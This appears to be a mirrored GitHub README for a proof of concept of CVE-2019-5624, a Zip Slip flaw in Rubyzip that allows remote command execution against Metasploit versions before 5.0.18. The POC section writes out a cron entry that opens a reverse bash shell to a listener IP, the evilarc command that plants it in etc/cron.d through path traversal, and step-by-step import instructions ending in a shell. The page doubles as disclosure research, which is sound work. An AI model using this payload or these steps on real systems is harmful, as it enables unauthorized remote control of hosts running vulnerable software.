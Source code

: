 # CVE-2019-5624

A proof of concept for Metasploit's CVE-2019-5624 vulnerability (Rubyzip insecure ZIP handling RCE) 

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/VoidSec](https://github.com/VoidSec) |
| Url      | [https://github.com/VoidSec/CVE-2019-5624](https://github.com/VoidSec/CVE-2019-5624)                                               |
| Stars    | 14                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2019-5624* exploit* metasploit* metasploit-framework* poc* rce* rubyzip

</details>

## Readme

# CVE-2019-5624
A proof of concept for Metasploit's CVE-2019-5624 vulnerability (Rubyzip insecure ZIP handling RCE)

## Intro

In February 2019 I found a new vulnerability in the Rubyzip library. It allows an attacker to exploit insecure ZIP handling ([Zip Slip](https://snyk.io/research/zip-slip-vulnerability)) resulting in remote command execution.

This vulnerability was leveraged to targets all Metasploit versions < 5.0.18 [Metasploit Wrap-Up](https://blog.rapid7.com/2019/04/19/metasploit-wrap-up-13/)

I've made this detailed [blog post](https://voidsec.com/rubyzip-metasploit-bug/) explaining the vulnerability.

## POC

+ Create a file with the following content:
```
* * * * * root /bin/bash -c "exec /bin/bash0</dev/tcp/172.16.13.144/4444 1>&0 2>&0 0<&196;exec196<>/dev/tcp/172.16.13.144/4445; bash <&196 >&196 2>&196"
```
+ Generate the ZIP archive with the path traversal payload: 
```
python evilarc.py exploit --os unix -p etc/cron.d/
```
+ Add a valid MSF workspace to the ZIP file (in order to have MSF to extract it, otherwise it will refuse to process the ZIP archive)
+ Setup two listeners, one on port 4444 and the other on port 4445 (the one on port 4445 will get the reverse shell)
+ Login in the MSF Web Interface
+ Create a new “Project”
+ Select “Import”, “From file”, chose the evil ZIP file and finally click the “Import” button
+ Wait for the import process to finish
+ Enjoy your reverse shell

## Video
[![](http://img.youtube.com/vi/79Dl-Ylu6Ig/0.jpg)](http://www.youtube.com/watch?v=79Dl-Ylu6Ig "https://voidsec.com/wp-content/uploads/2019/04/metasploit-og-463x348.png")



## Get the content

```
git clone https://github.com/VoidSec/CVE-2019-5624
cd CVE-2019-5624
```

{% embed url="https://github.com/VoidSec/CVE-2019-5624" %}

<figure><img src="https://avatars.githubusercontent.com/u/5717603?v=4" alt=""><figcaption><p>VoidSec</p></figcaption></figure>
